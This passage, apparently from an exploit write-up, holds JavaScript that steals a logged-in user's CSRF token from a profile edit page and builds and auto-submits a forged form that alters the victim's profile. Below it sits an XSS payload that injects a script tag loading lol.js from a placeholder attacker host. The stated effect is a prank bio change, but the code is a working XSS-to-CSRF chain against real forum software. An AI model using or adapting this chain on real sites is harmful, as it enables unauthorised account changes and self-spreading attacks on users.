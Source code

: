 ```javascript
  //user = mod or admin
  var profile = check0;
} else if (check2.includes("profile")){
  //user = mod or admin
  var profile = check2;
} else if (check3.includes("profile")){
  //user = mod or admin
  var profile = check3;
} else if (check4.includes("profile")){
  //user = mod or admin
  var profile = check4;
} else if (check5.includes("profile")){
  //user = mod or admin
  var profile = check5;
} else if (check6.includes("profile")){
  //user = mod or admin
  var profile = check6;
}
var final = profile + 'edit/';

// steals the csrf token

var csrf = get(final);
document.body.innerHTML = csrf;
var inp = document.getElementsByTagName('input')[3];
var token = inp.value;

// build form with valid token and evil credentials
document.body.innerHTML
+= '<form id="woot" action=' + final + ' method="POST">'
+ '<input type="hidden" name="form_submitted" value="1">'
+ '<input type="hidden" name="csrfKey" value="' + token + '">'
+ '<input type="hidden" name="MAX_FILE_SIZE" value="2097152">'
+ '<input type="hidden" name="plupload" value="corben">'
+ '<input type="hidden" name="bday[month]" value="0">'
+ '<input type="hidden" name="bday[day]" value="0">'
+ '<input type="hidden" name="bday[year]" value="0">'
+ '<input type="hidden" name="enable_status_updates" value="0">'
+ '<input type="hidden" name="enable_status_updates_checkbox" value="1">'
+ '<input type="hidden" name="core_pfield_1" value="' + payload + '">'
+ '<input type="hidden" name="core_pfield_1_upload" value="corben">'
+ '</form>';

// submits our csrf form!
document.forms["woot"].submit();

function get(url) {
    var xmlHttp = new XMLHttpRequest();
    xmlHttp.open("GET", url, false);
    xmlHttp.send(null);
    return xmlHttp.responseText;
}
```
This javascript steals the victim's CSRF token, builds a CSRF form & submits it, enables the user's status updates in order to change their "About Me" bio to "corben is my hero"
<br><br>
**Payload:** 
```
controller='};</script><script src=//<attacker>/lol.js></script>;{'
```  
<br><br>